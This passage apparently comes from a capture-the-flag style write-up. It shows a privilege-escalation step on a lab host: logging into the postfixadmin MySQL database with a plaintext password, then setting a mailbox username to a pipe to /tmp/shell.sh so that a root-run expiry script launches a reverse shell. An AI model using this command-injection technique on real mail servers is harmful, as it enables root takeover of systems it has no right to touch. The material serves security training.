 From here, we can login to the database and use the `postfixadmin` database.&#x20;

```
hostmaster@spaghetti:/var/www/postfixadmin$ mysql -u postfixadmin -pP4s8vV0r6
mysql: [Warning] Using a password on the command line interface can be insecure.             
Welcome to the MySQL monitor.  Commands end with ; or \g.                                    
Your MySQL connection id is 139
Server version: 8.0.23-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use postfixadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

The script uses the `mailbox` table, so we can update the entries within it:

```
mysql> update mailbox set username =' |/tmp/shell.sh';
Query OK, 1 row affected (0.02 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> update mailbox set password_expiry = (select now() + interval 7 day);
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Afterwards, we can just wait for `root` to execute it and give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (1386).png" alt=""><figcaption></figcaption></figure>
